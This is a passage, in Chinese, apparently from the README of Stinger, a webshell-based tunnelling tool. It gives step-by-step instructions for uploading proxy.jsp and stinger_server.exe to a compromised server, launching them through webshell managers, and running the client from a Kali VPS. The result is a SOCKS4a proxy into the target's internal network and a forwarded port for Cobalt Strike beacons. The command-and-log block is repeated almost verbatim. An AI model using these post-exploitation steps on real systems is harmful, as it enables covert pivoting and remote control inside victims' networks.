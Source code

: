 > 不要直接运行D:/XXX/stinger\_server.exe,会导致tcp断连

- vps执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```

- 此时已经在vps`127.0.0.1:60000`启动了一个`example.com`所在内网的**socks4a**代理
- 此时已经将目标服务器的`127.0.0.1:60020`映射到vps的`127.0.0.1:60020`

#### **cobalt strike单主机上线**

- proxy.jsp上传到目标服务器,确保 <http://example.com:8080/proxy.jsp> 可以访问,页面返回 `UTF-8`
- 将stinger\_server.exe上传到目标服务器,蚁剑/冰蝎执行`start D:/XXX/stinger_server.exe`启动服务端

> 不要直接运行D:/XXX/stinger\_server.exe,会导致tcp断连

- stinger\_client命令行执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
```